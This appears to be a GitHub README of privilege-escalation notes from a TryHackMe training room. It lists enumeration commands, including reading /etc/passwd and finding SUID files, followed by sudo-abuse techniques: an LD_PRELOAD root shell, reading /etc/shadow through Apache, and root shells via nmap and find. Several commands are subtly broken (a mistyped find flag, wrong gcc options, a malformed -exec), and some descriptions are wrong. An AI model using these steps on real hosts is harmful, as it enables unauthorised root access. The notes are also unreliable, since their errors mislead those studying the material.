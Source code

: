 <h1 align="center">Linux-Privilage-Escalation</h1>

- <strong><em>These notes are made from the Linux Privilage Escalation room of Tryhackme and do not contain any of the newer mathods to escalate privilages.</em></strong>
<h2 align="left">1.Enumeration</h2>

`hostname`- Show the hostname for the machine

`uname` - shows system information

`/proc/version` - shows abaout the target system processes

`/etc/issue` - shows more system information

`env`- shows environment variables 

`ps aux`-shows processes for all users

`ps -A`-view processes

`ps axjf`-view process tree

`sudo -l`-view what commands your user can execute with sudo privilages

`ls -l`-shows all the files in the directory including hidden ones

`id`-general overview of the privilages of the user

`id (username)`-general overview of the privilages of the asked user

`/etc/passwd`-contains the users list 
>`cat /etc/passwd | cut -d ":" -f 1`-get a clean list of users without additional information

`history`-see the history of commands executed

`ifconfig`-show network information **important for pivoting**
> `iproute`-shows which network route exists

`netstat`
>`netstat -a`-shows all the listning ports

>`netstat -at`-lists tcp and udp protocols

>`netstat -l`-list ports in listening mode

>`netstat -s`-network usage stats by protocols

>`netstat -tp`-list connections with the service name and pid info

>`netstat -i`-interface stats

>`netstat -ano`-display all sockets,resolve names,dispay timers

<h4>Find-</h4>

`find . -name flag1.txt`-find file named flag1.txt in the current directory

`find /home -name flag1.txt`-find file named flag1.txt in the home directory

`find / -type d -name config`-find directory named config in  / 

`find / -type f -perm 0777`-find files with permission 777 in / directory

`find / -perm a=x`-find executables

`find /home -user frank`-find all files for user frank

`find / -mtime 10`-files that were modified in last 10 days

`find / -atime 10`-files that were accessed in last 10 days

`find / -cmin -60`-files changed within last hour(60 mins)

`find / -amin -60`-files accessed within last hour(60 mins)

`find / -size 50m`-files with 50mb size

`2> /dev/null`-*add this to the end to remove errors shown in terminal*

**Find files that can be writeen to and executed form**

`find / -writable`

`find / -perm -222`

`find / -perm -ow`

`find / -perm -ox`

**Find developement tools and supported languages**

`find / -name perl*`

`find / -name python*`

`find / -name gcc*`

**find files with SUID bit set which allows you to run the file with higher privilages**

```bash
find / -per -u=s -type f 2> /dev/null 
```

---

<h2 align="left">2.Automated Enumeration Tools</h2>

1. [LinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

2. [LinEnum](https://github.com/rebootuser/LinEnum)

3. [Linux_exploit_suggester](https://github.com/mzet-/linux-exploit-suggester)

4. [Linux_smart_enumerator](https://github.com/diego-treitos/linux-smart-enumeration)

5. [Linux_priv_checker](https://github.com/sleventyeleven/linuxprivchecker)

<h2 align="left">3.Kernel Exploits</h2>

>**Methodology**
>1. Identify kernel version
>2. Search and find the exploit code for the kernel version
>3. Run the exploit
> *Useful Resources-*
>> [ /Google/ ](https://www.google.com/)
>>[ /Linuxkernelcves.com/ ](https://www.linuxkernelcves.com/)
>> [ /Linux exploit suggester/ ](https://github.com/mzet-/linux-exploit-suggester)

<h2 align="left">4.Sudo</h2>

- `sudo -l`-Tells us about the commands the current user can run with root privilages

- [Getfobins](https://gtfobins.github.io/)-Tells us how the binary or cammand can be exploited to get root privilages

**Leverage application function**
>Apache 2 has a function that supports external loading of config file(`-f`)
>Ie:load etc/shadow file

**Leverage LD_Preload**
>*Methodology*-
>1. check for LD_Preload with env_keep option
>2. Compile simple c code as a shared object (.so extension).
>**The program file that you need to compile as shared object is present in this repository**
>```bash
>gcc -FPIC -shared -o shell.so shell.c -nostart files
>```
>3. Now run any command that we can run with sudo and give the shared file command with it 
>```
>sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
>```
>*`find` in the above command is the command that we can execute with root privs* 

- if nmap has sudo privilages -
we need to run (`sudo nmap --intractive` ) to get root shell

- If find has sudo privilages-
we need to run (`sudo find . -exec /bin/sh 1; -quit`) to get root shell

***More ways to exploit can be found on Getfobins***

<h2 align="left">4.Sudo</h2>
